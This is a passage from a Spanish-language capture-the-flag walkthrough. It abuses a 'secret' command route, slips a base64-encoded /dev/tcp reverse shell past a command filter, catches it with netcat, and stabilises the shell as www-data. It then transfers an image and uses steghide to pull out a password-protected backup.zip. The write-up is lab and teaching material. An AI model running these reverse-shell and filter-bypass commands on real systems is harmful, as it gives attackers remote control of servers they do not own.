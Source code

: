 Nos saca una ruta llamada `secret` por la cual podemos enviar comandos, pero para enviar una Reverse Shell no podemos hacer tan facil, ya que tienen delimitado muchos comandos, por lo que ingresaremos lo siguiente...

```shell
#Rever shell
sh -i >& /dev/tcp/<IP>/<PORT> 0>&1
```

```shell
echo <REVER_SHELL_BASE64> | base64 -d | /bin/bash
```

```shell
nc -lvnp <PORT>
```

Ya nos haria conexion con `www-data`, por lo que vamos a sanitizar nuestra shell...

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

Si te vas a `/var/www/files/images/` encontraras una iamgen llamada `hacker-with-laptop_23-2147985341.jpg` que si te la pasas a tu `host` y le sacas la informacion que contiene dejando el salvoconducto vacio te extraera un `backup.zip` con contraseña...

```shell
python3 -m http.server
```

```shell
wget http://<IP>:<PORT>/<IMG>
```

Para sacar los datos...

```shell
steghide extract -sf hacker-with-laptop_23-2147985341.jpg

#Seguidamente le das a <ENTER>
```

Info:

```
backup.zip
```
